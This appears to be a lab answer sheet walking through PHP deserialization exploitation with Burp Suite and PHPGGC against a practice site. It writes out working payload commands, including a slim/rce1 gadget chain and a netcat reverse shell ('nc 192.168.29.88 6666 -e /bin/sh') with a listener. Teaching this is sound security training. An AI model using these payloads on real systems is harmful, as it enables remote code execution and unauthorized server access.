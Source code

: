 # PHP Deserialization Answersheet

**Step 1:** Navigate to "PHP Website:16664" link
![Usage](1.png)
<br /> <br />


**Step 2:** Provide the necessary information and click on "submit" button.
![Usage](2.png)
<br /> <br />


**Step 3:** Capture the request in BurpSuite proxy and Observe the "csrftoken" parameter contains the Base64 data.
![Usage](3.png)
<br /> <br />


**Step 4:** While decoding the value with Base64, we are able to identify the serealized data.
![Usage](4.png)
<br /> <br />


**Step 5:** Send request captured in **Step 3** to the Burp Repeater 
![Usage](5.png)
<br /> <br />


**Step 6:** Download the PHPGGC utility from the following location to generate the serealized payload using the following command and capture the payload
PHPGGC Location: https://github.com/ambionics/phpggc
```
./phpggc -b slim/rce1 system id
```
![Usage](6.png)
<br /> <br />


**Step 7:** Replace the payload generated in **Step 6** in parameter "csrftoken" in request captured in **Step 5** and send request and observe the serve respond with the output of command "id".
![Usage](7.png)
<br /> <br />


**Step 8:** Start the listener using the following command
```
nc -nlvp 6666
```
![Usage](8.png)
<br /> <br />


**Step 9:** Capture the system IP Address and used that to generate the payload of reverse shell using the following command and capture the payload
```
./phpggc -b slim/rce1 "nc 192.168.29.88 6666 -e /bin/sh"
```
![Usage](9.png)
<br /> <br />


**Step 10:** Repalce the payload catured in **Step 9** in "csrftoken" paramter in **Step 5** and click on "send" button.
![Usage](10.png)
<br /> <br />

**Step 10:** We received the connection on reverse shell and use the whoami, uname -e command to extract the server information.
![Usage](11.png)
<br /> <br />